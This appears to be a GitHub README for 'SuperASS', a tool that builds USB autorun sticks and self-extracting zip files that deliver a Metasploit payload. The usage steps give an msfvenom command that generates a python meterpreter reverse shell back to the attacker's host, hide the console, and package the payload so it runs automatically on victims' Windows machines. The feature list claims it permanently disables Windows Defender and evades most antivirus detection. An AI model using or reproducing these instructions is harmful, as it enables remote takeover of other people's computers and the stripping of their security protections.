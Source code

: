 
<h1 align="center">SuperASS</h1>

### [√] Description :

***The best tool to create a USB gadget or a zip file infested with a virus with a quick kill protection with Metasploit!***

### [+] Installation

##### The SuperASS project is set up first in Kali Linux, and then the virus boot is set up in Windows :

* You can set up the project initially in Termux, but the remaining steps in preparing a zip file or creating a boot disk require Windows.

 - For KALI Linux :
    - ```git clone https://github.com/AbdulazizDXT/SuperASS```
    - ```cd SuperASS```
    - ```chmod +x install.sh```
    - ```./install.sh```

#### Or, directly run "Root Users {sudo su}"
```
git clone https://github.com/AbdulazizDXT/SuperASS ;cd SuperASS ;chmod +x install.sh ;./install.sh

```
## [+] Usage

1. Run the script
2. SuperASS file window will open automatically after installation
3. Open Terminal and Type "msfvenom -p python/meterpreter/reverse_tcp LHOST={YourIPAddres} LPORT={Your Port} -o Update.py
4. ReName file --> "Update.py" to "Update.pyw" For hide python console
5. Copy the Update.pyw file to the Open SuperASS window and click Replace
6. Now the file must be transferred to the Windows system to start creating an exe file for the virus in the USB or zip files


## [+] Use SuperASS In USB AutoRun :

1. Download USB AutoRun Creator From : https://www.samlogic.net/demos/files/USBAC-DEMO-ENG-SETUP.exe
2. Install & Open after Installation 
3. Now the previously modified SuperASS file should be present in your Windows system
4. After you run the autorun program, choose the file MIN (1).exe & Then choose the USB disk & click create
5. Now copy all the contents of the SuperASS file to the USB and then remove it, but beware not to put it again on your device, it may kill the protection completely and make it difficult to restore it, except by upgrading to the new versions of Windows such as the Insider version

### [+]  Use SuperASS In Zip File AutoRun :

1. Download WinRAR From : https://www.win-rar.com/download.html?&L=0
2. Install & Check [√]
3. Go to the SuperASS file and then right click and click on Add to archive &  Click OK to start pressing... 
4. After compressing the file, open it, then choose the "SFX" option, then "Advanced SFX Option" & Setup Option
5. Type MIN (1).exe & Press OK & OK to Exit
6. Now you can use zip file for hacking / Do not try on your device

### Features:

 - Under 10s to install payload in target device
 - connect Metasploit to hacking
 - Python Quiet install
 - autorun payload in startup windows
 - kill windows defender forever
 - {5 security vendors and no sandboxes flagged this file as malicious} in ViursTotal <57/5>
 - This is the antivirus that detected the virus {Antiy-AVL, GData, Microsoft, ClamAV ,Ikarus}
 - Soon a copy will be released that disables all antivirus programs!
